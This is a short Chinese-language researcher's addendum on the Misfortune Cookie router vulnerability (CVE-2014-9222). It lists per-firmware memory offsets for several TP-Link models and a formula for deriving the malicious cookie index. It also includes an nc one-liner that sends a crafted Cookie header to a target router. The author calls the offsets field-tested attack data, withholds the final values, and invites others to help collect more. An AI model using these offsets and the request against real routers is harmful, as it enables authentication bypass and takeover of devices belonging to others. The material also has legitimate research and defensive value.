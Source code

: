 标题: Misfortune Cookie漏洞(CVE-2014-9222)补遗

创建: 2015-04-14 11:14
更新: 2015-04-28 12:02
链接: http://scz.617.cn/misc/201504141114.txt

--------------------------------------------------------------------------
TD-8820

    3.0.0 Build 091223 Rel.23304

        C_Array = 0x803C3018
        authoff = 0x80397E69

TD-W8901G

    1.0.2 Build 080522 Rel.37708 (这是Piotr Bania所用版本)

        C_Array = 0x803E9A40
        authoff = 0x803AB30D

    3.0.1 Build 100603 Rel.28484

        C_Array = 0x8041B3D4
        authoff = 0x803DC701

    3.0.1 Build 100901 Rel.23594

        C_Array = 0x80420554
        authoff = 0x803E1829

    6.0.0 Build 110119 Rel.25581

        C_Array = 0x804FA3E0
        authoff = 0x804BB941

    6.0.0 Build 110915 Rel.06942

        C_Array = 0x80517454
        authoff = 0x804D7CB9

TD-W8901N

    1.0.0 Build 121121 Rel.08870 (这是Cawan所用版本)

        C_Array = 0x804163D4
        authoff = 0x8034FF94

TD-W8951ND

    1.0.0 Build 100723 Rel.23035

        C_Array = 0x803FD3F0
        authoff = 0x803D2D61

TD-W8961ND

    1.0.0 Build 100722 Rel.05210

        C_Array = 0x803FD3F0
        authoff = 0x803D2D61

    3.0.0 Build 120808 Rel.08330

        C_Array = 0x804269F4
        authoff = 0x803605B4
--------------------------------------------------------------------------

C_Array + evilnum * 0x28        = authoff

这里所有的四则运算都是"模0x100000000"四则运算。

要充分考虑这种情形:

( authoff - C_Array ) % 0x28   != 0

此时evilcookie必须进行适当填充，这还得看实际被破坏数据是否无关大碍。

echo -ne "GET / HTTP/1.0\r\nCookie: C<evilnum>=<evilcookie>\r\n\r\n" | nc -w 5 -n <target> 80

我没有找到可能存在的神技巧快速、稳定地远程确定这些值:

C_Array
authoff
evilnum
evilcookie

暂时计划在将来的日子里陆续手工收集这些数据，这依赖于我在野地里找到的测试目
标以及能否下载得到相关固件。

前面所列是用于攻击的精确数据，实测无误。为了避免为Script Kids所用，没有直
接显示evilnum、evilcookie。了解该漏洞原理的兄弟请自行推算。

日后我会更新前述列表。有兴趣收集此类数据的兄弟，我们可以一起干这件事。
